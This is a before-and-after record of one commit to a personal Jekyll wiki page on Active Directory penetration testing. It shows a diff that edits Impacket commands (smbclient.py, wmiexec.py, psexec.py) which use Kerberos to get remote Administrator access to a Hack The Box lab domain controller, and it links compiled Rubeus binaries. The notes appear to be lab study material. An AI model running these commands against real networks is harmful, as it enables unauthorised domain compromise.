

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 10448 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -415,7 +415,7 @@ python3 -m pipx install impacket
 
 smbclient.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb -debug
 wmiexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
-psexec.py -k -no-pass PAINTERS.HTB/Administrator@dc.painters.htb
+psexec.py -k -no-pass Administrator@dc.painters.htb -dc-ip 192.168.110.55 -debug (sometimes don't need the domain)
 ```
 
 **[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
````
